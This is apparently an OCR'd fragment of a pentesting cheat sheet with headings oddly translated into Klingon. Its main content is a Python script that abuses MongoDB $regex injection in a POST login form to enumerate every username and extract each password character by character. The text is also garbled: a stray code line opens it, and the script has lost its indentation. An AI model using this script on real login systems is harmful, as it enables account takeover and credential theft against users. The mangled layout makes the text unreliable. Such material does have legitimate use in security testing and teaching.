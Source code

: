 ```python
password += c
```
### Brute-force login usernames and passwords from POST login

**tlhIngan Hol translation:**

### POST login qorwagh usernames je passwords

**tlhIngan Hol translation:**

Qapla'!
```python
import requests
import string

url = "http://example.com"
headers = {"Host": "exmaple.com"}
cookies = {"PHPSESSID": "s3gcsgtqre05bah2vt6tibq8lsdfk"}
possible_chars = list(string.ascii_letters) + list(string.digits) + ["\\"+c for c in string.punctuation+string.whitespace ]
def get_password(username):
print("Extracting password of "+username)
params = {"username":username, "password[$regex]":"", "login": "login"}
password = "^"
while True:
for c in possible_chars:
params["password[$regex]"] = password + c + ".*"
pr = requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False)
if int(pr.status_code) == 302:
password += c
break
if c == possible_chars[-1]:
print("Found password "+password[1:].replace("\\", "")+" for username "+username)
return password[1:].replace("\\", "")

def get_usernames(prefix):
usernames = []
params = {"username[$regex]":"", "password[$regex]":".*"}
for c in possible_chars:
username = "^" + prefix + c
params["username[$regex]"] = username + ".*"
pr = requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False)
if int(pr.status_code) == 302:
print(username)
for user in get_usernames(prefix + c):
usernames.append(user)
return usernames

for u in get_usernames(""):
get_password(u)
```
## Tools
